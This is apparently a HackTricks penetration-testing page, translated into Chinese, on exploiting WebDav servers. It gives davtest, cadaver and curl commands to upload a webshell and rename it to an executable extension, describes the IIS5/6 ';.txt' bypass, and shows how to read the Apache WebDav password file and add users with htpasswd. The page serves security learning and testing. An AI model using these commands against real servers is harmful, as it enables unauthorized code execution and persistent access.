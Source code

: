 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
使用 [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) 轻松构建和 **自动化工作流**，由世界上 **最先进** 的社区工具提供支持。\
今天就获取访问权限：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在处理 **启用 WebDav 的 HTTP 服务器** 时，如果您拥有正确的 **凭据**，通常通过 **HTTP 基本认证** 验证，则可以 **操纵文件**。控制此类服务器通常涉及 **上传和执行 webshell**。

访问 WebDav 服务器通常需要 **有效凭据**，而 [**WebDav 暴力破解**](../../generic-methodologies-and-resources/brute-force.md#http-basic-auth) 是获取它们的常用方法。

为了克服文件上传的限制，特别是那些阻止服务器端脚本执行的限制，您可以：

* 如果没有限制，**直接上传** 具有 **可执行扩展名** 的文件。
* **重命名** 上传的非可执行文件（如 .txt）为可执行扩展名。
* **复制** 上传的非可执行文件，将其扩展名更改为可执行的扩展名。

## DavTest

**Davtest** 尝试 **上传多个不同扩展名的文件** 并 **检查** 扩展名是否 **被执行**：
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

这并不意味着 **.txt** 和 **.html 扩展名被执行**。这意味着你可以 **通过网络访问这些文件**。

## Cadaver

你可以使用这个工具 **连接到 WebDav** 服务器并执行操作（如 **上传**、**移动** 或 **删除**） **手动**。
```
cadaver <IP>
```
## PUT 请求
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE 请求
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
使用 [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) 轻松构建和 **自动化工作流**，由世界上 **最先进** 的社区工具提供支持。\
今天就获取访问权限：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## IIS5/6 WebDav 漏洞

这个漏洞非常有趣。**WebDav** 不允许 **上传** 或 **重命名** 扩展名为 **.asp** 的文件。但你可以通过在名称末尾 **添加** **";.txt"** 来 **绕过** 这个限制，文件将被 **执行**，就像它是一个 .asp 文件一样（你也可以 **使用 ".html" 而不是 ".txt"**，但 **不要忘记 ";"**）。

然后你可以将你的 shell 作为 ".**txt" 文件** **上传**，并 **复制/移动** 到一个 ".asp;.txt" 文件。通过网络服务器访问该文件时，它将被 **执行**（cadaver 会说移动操作没有成功，但实际上是成功的）。

![](<../../.gitbook/assets/image (1092).png>)

## 后置凭证

如果 Webdav 使用的是 Apache 服务器，你应该查看 Apache 中配置的网站。通常：\
&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

在里面你可能会找到类似的内容：
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
如您所见，存在具有有效**凭据**的**webdav**服务器的文件：
```
/etc/apache2/users.password
```
在这类文件中，您会找到 **用户名** 和 **密码** 的 **哈希**。这些是 webdav 服务器用于验证用户的凭据。

您可以尝试 **破解** 它们，或者如果出于某种原因您想要 **访问** **webdav** 服务器，可以 **添加更多**：
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
要检查新凭据是否有效，您可以执行：
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## 参考文献

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
学习和实践 AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
使用 [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) 轻松构建和 **自动化工作流程**，由世界上 **最先进** 的社区工具提供支持。\
今天就获取访问权限：

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
